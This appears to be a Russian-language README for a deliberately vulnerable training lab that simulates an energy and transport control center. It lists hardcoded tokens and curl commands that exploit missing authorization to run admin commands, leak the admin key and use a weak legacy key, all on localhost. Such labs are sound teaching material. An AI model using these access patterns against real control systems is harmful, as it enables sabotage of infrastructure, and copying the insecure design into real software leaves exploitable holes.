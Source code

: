 # Инструкции по запуску Оперативного Центра Энергетики и Транспорта

## Быстрый старт

### 1. Запуск системы
```bash
./start_system.sh
```

### 2. Остановка системы
```bash
./stop_system.sh
```

## Доступ к системе

- **Веб-интерфейс**: http://localhost:5557
- **API Token**: `changeme_local_token_please_change`
- **Admin Token**: `super_secret_admin_token_123`

## Уязвимости для изучения

### 1. Отсутствие авторизации в админ-панели
```bash
# Прямой доступ к критическим командам без авторизации
curl "http://localhost:5557/api/management/control?cmd=shutdown"
curl "http://localhost:5557/api/management/control?cmd=isolate"
curl "http://localhost:5557/api/management/control?cmd=compromise_all"
```

### 2. Получение админ-ключа без авторизации
```bash
# Получение админ-ключа без проверки прав
curl "http://localhost:5557/api/management/token"
```

### 3. Использование слабого legacy-ключа
```bash
# Использование известного слабого ключа
curl -X POST "http://localhost:5557/api/legacy_control" \
  -H "Content-Type: application/json" \
  -d '{"device_id": "pp-1", "legacy_key": "weak-legacy-key-for-lab"}'
```

### 4. Подтверждение наличия API
```bash
# Подтверждение что API существует (не раскрывает структуру)
curl "http://localhost:5557/api"
```

## Управление системой

### Просмотр логов
```bash
docker-compose logs -f
```

### Проверка статуса
```bash
docker-compose ps
```

### Полная очистка
```bash
docker-compose down --volumes --remove-orphans
```

## Структура проекта

- `app/` - исходный код приложения
- `docker-compose.yaml` - конфигурация Docker Compose
- `Dockerfile` - образ приложения
- `start_system.sh` - скрипт запуска
- `stop_system.sh` - скрипт остановки
- `env.example` - пример конфигурации
- `.env` - файл конфигурации (создается автоматически)

## Безопасность

⚠️ **ВНИМАНИЕ**: Данная система содержит намеренные уязвимости для обучения. 
НЕ используйте этот код в продакшене!

## API Endpoints

- `GET /` - главная страница
- `GET /api` - подтверждение наличия API (не раскрывает структуру)
- `GET /api/devices` - список устройств
- `GET /api/management/control?cmd=<command>` - критические команды (уязвимость)
- `GET /api/management/token` - получение админ-ключа (уязвимость)
- `POST /api/legacy_control` - legacy API (уязвимость)
- `POST /api/command` - обычные команды (требует авторизацию)
- `GET /health` - проверка состояния системы

## Заблокированные эндпоинты

- `GET /docs` - документация FastAPI (заблокирована)
- `GET /openapi.json` - OpenAPI схема (заблокирована)
- `GET /redoc` - ReDoc документация (заблокирована)
